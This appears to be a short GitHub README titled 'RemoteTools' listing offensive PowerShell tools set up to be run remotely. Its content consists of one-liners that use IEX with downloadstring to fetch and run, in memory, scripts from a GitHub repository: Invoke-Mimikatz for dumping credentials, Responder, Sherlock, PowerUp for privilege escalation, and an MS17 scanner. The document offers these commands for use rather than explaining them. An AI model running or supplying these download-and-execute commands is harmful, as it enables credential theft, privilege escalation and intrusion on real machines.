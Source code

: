 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

### Mimikatz

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')

### MS17 Scanner

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/MS17.ps1')
